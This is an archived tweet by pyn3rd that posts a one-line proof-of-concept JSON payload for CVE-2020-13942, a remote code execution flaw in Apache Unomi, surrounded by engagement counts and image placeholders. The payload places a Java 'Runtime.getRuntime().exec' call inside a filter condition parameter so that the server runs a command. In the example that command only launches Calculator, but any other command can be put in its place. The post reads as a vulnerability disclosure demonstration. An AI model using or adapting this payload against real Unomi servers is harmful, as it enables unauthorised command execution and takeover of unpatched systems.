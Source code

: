 <table><tr>
<td><img src="pictures/0e523a4e2cb7ab311900e7d441a08460f4136b6ff0795fb81bf30f9f95daa8bb.jpg" alt="0e523a4e2cb7ab311900e7d441a08460f4136b6ff0795fb81bf30f9f95daa8bb.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1328920545442680837 _at 2020-11-18, 04:38:42_**
<blockquote>
#CVE-2020-13942 Apache Unomi Remote Code Execution

PoC:
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"} https://t.co/Gcw5FcZiNp
</blockquote>

<table><tr>
<td><img src="pictures/9c640f2a17ed89810f2e1a006ad4e499e0a39f499ab6bc70268e608cae2ee4a7.jpg" alt="9c640f2a17ed89810f2e1a006ad4e499e0a39f499ab6bc70268e608cae2ee4a7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>469</code></td>
</tr></table>

---